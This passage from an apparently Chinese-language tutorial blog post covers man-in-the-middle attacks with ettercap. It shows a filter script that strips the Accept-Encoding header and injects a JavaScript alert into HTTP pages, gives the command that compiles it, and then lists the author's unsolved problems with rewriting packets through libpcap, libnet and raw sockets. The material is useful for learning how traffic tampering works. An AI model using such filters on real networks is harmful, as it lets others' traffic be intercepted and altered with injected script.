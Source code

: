 ettercap的过滤脚本语法如下：

```js
if (ip.proto == TCP && tcp.dst == 80)
{
  if (search(DATA.data, "Accept-Encoding"))
  {
    replace("Accept-Encoding", "Accept-Rubbish!");
    msg("zapped Accept-Encoding!\n");
  }
}

if (ip.proto == TCP && tcp.src == 80)
{
  replace("<head>", "<head><script type=\"text/javascript\">alert('Big brother is watching at you');</script>");
  replace("<HEAD>", "<HEAD><script type=\"text/javascript\">alert('Big brother is watching at you');</script>");
  msg("Injecting OK!!\n");
}
```

这里是一个例子，我来解释一下：

* search是用来寻找某个字符串
* replace很简单，就是直接替换字符串，这里我们可以插入JS
* msg打印信息

我们需要讲这个脚本保持为`test.filter`，随后用ettercap编译。

`etterfilter test.filter -o test.ef`

编译后的.ef文件就可以拿来进行篡改数据包了。

ettercap十分强大，仍然有许多功能，这里就不找教程了，需要的Google吧。

## 尚未实现...

中间人攻击的基本内容就是这些，但是仍然没有实现修改报文的内容，插入JS，事实上这部分也是最好玩的。

我个人目前遇到的问题，思考的内容如下：

* 尝试过libpcap，前面讲过在转发的过程中遇到一些问题，效率也不高。
* 尝试过libnet，在构造数据包的时候，让系统填充校验和，至于序列号和确认号不做处理，转发。结果是可以发送成功，浏览器并没有加载。
* 尝试过raw Socket，浏览器同样没有接收，感觉是这个应该要有专门的接收函数或者是识别的地方？
* 是否处理好校验和计算算法就好了呢？别的地方不需要修改吗？
* 初步判定HTTP头部中记载的数据会影响到最后加载的结果。
* 网上的说法基本上都是从内核层面改造，利用netfilter框架修改数据包，内核层面可以修改确实好理解，那么应用层修改为什么会出现问题呢？
* 关于序列号和确认号，他们会在每次修改后增加上一次的偏移量，但是一旦出现中间某个包发生丢失，而那个包中含有要修改的地方，此后所有包的这两个数据均会发生错误，这一点在现在高丢包率的网络中是比较复杂的。

希望能和有看到这里的有进一步想法的各路大佬一起思考一下，欢迎评论（要翻墙），或者发送至我的邮箱`zxc479773533@gmail.com`。
